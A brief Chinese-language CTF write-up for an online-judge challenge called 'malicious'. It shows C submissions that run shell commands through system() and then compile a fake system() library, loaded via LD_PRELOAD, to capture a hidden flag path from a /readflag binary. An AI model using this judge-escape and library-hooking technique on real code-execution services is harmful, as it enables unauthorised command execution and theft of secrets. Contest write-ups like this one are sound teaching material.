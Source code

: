 ![[malicious_desc.png]]

Solution
---

首先~~这个题它确实可以AC~~可以用`system`来执行命令

```c
int solve() {
  system("id");
  return 123456789;
}
```

![[malicious_solution_0.png]]

其次~~AC也不给你flag~~找到一个`/readflag.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(char* flag_path) {
  char command[256];
  strcpy(command, "echo ");
  strcat(command, flag_path);
  strcat(command, " > /dev/null");
  system(command);
  printf("I know where the flag is but I won't tell you~~~");
}

int main() { print_flag("<audited>"); }
```

想要获取`/readflag`也是不可行的，只有执行没有读写权限。

想直接找flag也行，我也不知道是哪个诶嘿～

![[malicious_solution_1.png]]

这里`readflag`的嘲讽是多余的，咱制作一个假的`system`函数，使用`LD_PRELOAD`来进行动态库插桩

```c
#include <stdio.h>
#include <stdlib.h>

int solve() {
  char* src =
      "#include<stdio.h>\n"
      "int system(char * path) {\n"
      "  FILE * f = fopen(\"./flag_path\", \"w\");\n"
      "  fprintf(f, path);\n"
      "  fclose(f);\n"
      "}\n";
  FILE* f = fopen("./hack.c", "w");
  fputs(src, f);
  fclose(f);
  system("gcc hack.c -fPIC -shared -o hack.so");
  system("LD_PRELOAD=./hack.so ../readflag");
  system("cat ./flag_path");

  return 0;
}
```

![[malicious_solution_2.png]]

然后直接读取就好啦

> Dionysus佬打出了个非预期解，快去摇他～

> 另外还有个~~新生~~卡密想到了按修改时间排序的方法，着实给我打懵了QAQ
>
> ![[malicious_another_solution.png]]
